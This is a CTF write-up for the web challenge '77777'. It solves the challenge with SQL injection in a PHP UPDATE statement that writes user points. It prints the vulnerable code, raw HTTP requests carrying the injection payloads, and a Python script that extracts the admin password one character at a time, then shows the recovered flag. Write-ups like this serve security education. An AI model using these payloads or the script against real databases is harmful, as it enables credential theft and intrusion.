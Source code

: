 ## 77777 (Web, 104pt)

> "77777" is my girlfriend's nickname，have fun xdd:)
> 
> hk node: http://47.75.14.48
> 
> cn node: http://47.97.168.223
> 
> (Two challenge servers are identical, use either of them.)

In the About tab we see the following.

```
U can update my points in Profile.

and And the flag is `admin's password`:)
```

There was a Somecode tab that gave us the following code.

```php
function update_point($p, $points){
    global $link;
    $q = sprintf("UPDATE users SET points=%d%s, $p, waf($points)");
    if(!$query = mysqli_query($link, $q)) return FALSE;
    return TRUE;
}
if(!update_point($_POST['flag'], $_POST['hi']))
    echo 'sorry';
```

It seems like a straight-forward SQL injection in the `UPDATE` statement and we can extract data from the Profile tab. So, the only black-box here is the `waf()` method. After fuzzing the vulnerable request to see what character limitations had been put in place, there were actually none. Only some functions were filtered. Initially, we retrieve the length of the password.

```
POST / HTTP/1.1
Host: 47.75.14.48
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Connection: close

flag=1&hi=*length(password)
```

Knowing the length, we can retrieve full password using a payload such as:

```
flag=1&hi=*ord(substr(password,INDEX,1))
```

The solution is automated in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://47.75.14.48/'

flag = ''
for i in range(1,16):
    d = {'flag': '1', 'hi': '*ord(substr(password,{},1))'.format(i)}
    resp = requests.post(_target, data=d)
    flag += chr(int(re.search(r'<grey>My Points</grey> \| ([0-9]+)<br/>', resp.text).group(1).strip()))
    print flag

print '[+] flag: N1CTF{{{}}}'.format(flag)
```

```
❯❯❯ python solve.py
h
he
hel
hell
hello
helloc
helloct
helloctf
helloctfe
helloctfer
helloctfer2
helloctfer23
helloctfer233
helloctfer2333
helloctfer23333
[+] flag: N1CTF{helloctfer23333}
```
